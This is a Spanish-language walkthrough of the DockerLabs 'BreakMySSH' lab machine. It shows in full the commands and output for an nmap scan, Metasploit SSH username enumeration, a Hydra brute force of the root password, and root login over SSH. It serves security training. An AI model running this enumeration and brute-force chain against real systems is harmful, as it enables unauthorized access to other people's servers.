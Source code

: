 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "BreakMySSH".
Una vez hecho , descomprimimos el archivo, e inicializamos la maquina con el comando:
```
bash auto_deploy.sh breakmyssh.tar
```
Tras desplegarse la maquina, hacemos un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 -n -Pn -vvv 172.17.0.2
```
y vemos que tiene un puerto abierto, el 22 (SSH):
```
Discovered open port 22/tcp on 172.17.0.2
```
Ademas, tenemos esta otra informacion:
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.7 (protocol 2.0)
```
Ahora podriamos ir a METASPLOIT y buscar si hay algun exploit que haga uso del "openssh 7" y vemos el siguiente resultado:
```
msf6 > search openssh 7

Matching Modules
================

   #  Name                                         Disclosure Date  Rank    Check  Description
   -  ----                                         ---------------  ----    -----  -----------
   0  auxiliary/scanner/ssh/ssh_enumusers          .                normal  No     SSH Username Enumeration
   1    \_ action: Malformed Packet                .                .       .      Use a malformed packet
   2    \_ action: Timing Attack                   .                .       .      Use a timing attack
   3  exploit/windows/local/unquoted_service_path  2001-10-25       great   Yes    Windows Unquoted Service Path Privilege Escalation
```
Como nos interesa enumerar los usuarios para luego intentar usar la fuerza bruta con HYDRA sobre su contraseña, elegimos el "0" y vemos sus opciones:
```
msf6 > use 0   <=== Elegimos el 0

msf6 auxiliary(scanner/ssh/ssh_enumusers) > options  <=== Vemos las opciones

Module options (auxiliary/scanner/ssh/ssh_enumusers):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CHECK_FALSE   true             no        Check for false positives (random username)
   
   DB_ALL_USERS  false            no        Add all users in the current database to the list
   
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   
   RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   
   RPORT         22               yes       The target port
   
   THREADS       1                yes       The number of concurrent threads (max one per host)
   
   THRESHOLD     10               yes       Amount of seconds needed before a user is considered found (timing attack only)
   
   USERNAME                       no        Single username to test (username spray)
   
   USER_FILE                      no        File containing usernames, one per line
```
En este caso, configuraremos el RHOSTS con la IP de la maquina victima y el diccionario para comprobar usuarios:
```
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 172.17.0.2

msf6 auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
```
Una vez hecho esto, lo ejecutamos con "run" y tras una pequeña espera obtenemos:
```
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run

[*] 172.17.0.2:22 - SSH - Using malformed packet technique
[*] 172.17.0.2:22 - SSH - Checking for false positives
[*] 172.17.0.2:22 - SSH - Starting scan
[+] 172.17.0.2:22 - SSH - User 'mail' found
[+] 172.17.0.2:22 - SSH - User 'root' found
[+] 172.17.0.2:22 - SSH - User 'news' found
[+] 172.17.0.2:22 - SSH - User 'man' found
[+] 172.17.0.2:22 - SSH - User 'bin' found
[+] 172.17.0.2:22 - SSH - User 'games' found
[+] 172.17.0.2:22 - SSH - User 'nobody' found
[+] 172.17.0.2:22 - SSH - User 'lovely' found
[+] 172.17.0.2:22 - SSH - User 'backup' found
[+] 172.17.0.2:22 - SSH - User 'daemon' found
[+] 172.17.0.2:22 - SSH - User 'proxy' found
```
No se si habria mas, pero me interesa sobre todo el usuario "root", por lo que vamos a hacer fuerza bruta con HYDRA para ver si obtenemos su contraseña:
```
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Y unos minutillos despues el terminal nos muestra lo siguiente:
```
[22][ssh] host: 172.17.0.2   login: root   password: estrella
```
Es momento entonces de intentar entrar por SSH introduciendo las credenciales obtenidas:
```
ssh root@172.17.0.2
```
Y tras responder "yes" a la primera pregunta y poner la contraseña, ya estamos dentro como usuario "root":
```
root@c2cff4659e7b:~# whoami
root

root@c2cff4659e7b:~#
```
